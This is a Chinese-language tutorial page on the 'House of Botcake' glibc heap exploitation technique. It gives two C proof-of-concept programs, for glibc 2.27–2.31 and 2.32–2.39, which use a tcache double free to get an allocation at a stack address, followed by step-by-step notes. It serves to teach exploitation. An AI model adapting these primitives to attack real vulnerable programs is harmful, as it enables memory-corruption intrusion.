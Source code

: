 ```yaml
---
title: "House of系列"
date: 2025-05-21
---
```


# house of botcake

### 介绍

House of botcacke 合理利用了 Tcache 和 Unsortedbin 的机制，同一堆块第一次 Free 进 Unsortedbin 避免了 key 的产生，第二次 Free 进入 Tcache，让高版本的 Tcache Double Free 再次成为可能。

### POC

#### glibc 2.27 - 2.31

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
    intptr_t stack_var[4];
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);

    free(a);// a is already freed
  
 
    intptr_t *b = malloc(0x120);
    b[0x120/8-2] = (long)stack_var;

    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");

    return 0;
}
```

#### glibc 2.32--2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);


    // prepare the target
    intptr_t stack_var[4];

    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    

    for(int i=0; i<7; i++){
        free(x[i]);
    }

    free(a);

    free(prev);

    malloc(0x100);
    free(a);// a is already freed
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);

    return 0;
}
```

### 利用思路

1. 申请7个0x100大小的chunk
2. 在申请大小为0x100的chunk1 ，chunk2 
3. free 7个chunk填充tcache
4. free chunk2,chunk1 ，使其进入unsorted bin，并因为连续所以合并。
5. malloc 0x100，从tache里取出一个free chunk
6. free chunk2 使其进入 tache bin，这样tache bin中就有了unsorted bin中的一块小内存
7. malloc 0x120 从 unsorted bin中分割出来一块内存，可覆盖chunk2的next指针
8. 伪造next指针

